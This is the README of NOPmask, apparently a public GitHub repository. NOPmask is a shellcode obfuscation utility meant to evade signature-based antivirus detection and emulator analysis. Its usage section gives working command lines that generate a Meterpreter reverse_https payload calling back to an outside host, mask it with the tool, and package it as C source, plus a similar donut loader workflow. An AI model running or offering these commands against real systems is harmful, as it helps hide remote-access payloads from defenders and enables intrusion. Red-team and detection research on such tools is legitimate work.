 # NOPmask v1.0
██████████████████████████████████████████████
█▄─▀█▄─▄█─▄▄─█▄─▄▄─█▄─▀█▀─▄██▀▄─██─▄▄▄▄█▄─█─▄█
██─█▄▀─██─██─██─▄▄▄██─█▄█─███─▀─██▄▄▄▄─██─▄▀██
▀▄▄▄▀▀▄▄▀▄▄▄▄▀▄▄▄▀▀▀▄▄▄▀▄▄▄▀▄▄▀▄▄▀▄▄▄▄▄▀▄▄▀▄▄▀

Shellcode obfuscation utility to evade signature-based detection and emulator-driven analysis.

---

## Features

- Shellcode encryption to make shellcode appear like benign NOP instructions.
- Emulator evasion to only decrypt and execute shellcode if running on real machine.

---

## Installation

Clone the repository:

```bash
git clone https://github.com/whoamiamleo/NOPmask
cd NOPmask
```

Install dependencies:
```bash
pip install -r requirements.txt
```

---

## Usage
```console
usage: NOPmask.py [-h] -a {amd64,i386} -i INPUT -o OUTPUT -f {base64,binary}

options:
  -h, --help                        show this help message and exit
  -a, --arch {amd64,i386}           target CPU architecture
  -i, --input INPUT                 path to input file
  -o, --output OUTPUT               path to output file
  -f, --format {base64,binary}      format of output file
```

Basic usage example:
```bash
python NOPmask.py -a amd64 -i shellcode.bin -o masked_shellcode.bin -f binary
```

Example of using with msfvenom:
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=1.2.3.4 LPORT=443 -f raw -o raw_shellcode.bin
python NOPmask.py -a amd64 -i raw_shellcode.bin -o masked_shellcode.bin -f binary
msfvenom -p generic/custom PAYLOADFILE=masked_shellcode.bin -f C -v shellcode -o masked_shellcode.c
```

Example of using with donut:
```bash
donut.exe -i reverse_https.dll -a 2
python NOPmask.py -a amd64 -i loader.bin -o masked_loader.bin -f binary
msfvenom -p generic/custom PAYLOADFILE=masked_loader.bin -f C -v shellcode -o masked_shellcode.c
```

### Warnings

1. The decryption stub alters the memory space that the shellcode is executed within, and therefore the memory space allocated for the shellcode must have Read/Write/Execution permissions.
2. The emulation evasion technique employed here exploits the fact that emulators are not patient, they will try to rush the emulation to not let the user wait, so please allow up to a minute for your shellcode to execute.

---

## Attribution

Written by Leopold von Niebelschuetz-Godlewski

[https://github.com/whoamiamleo/NOPmask](https://github.com/whoamiamleo/NOPmask)

Licensed under the MIT License.

If you use NOPmask in your projects, a link back or mention is appreciated!

---

## Contributing
Contributions, issues, and feature requests are welcome!
Feel free to check the [issues](https://github.com/whoamiamleo/NOPmask/issues) page or submit a pull request.

---

## License
This project is licensed under the MIT License — see the [LICENSE](https://raw.githubusercontent.com/whoamiamleo/NOPmask/main/LICENSE) file for details.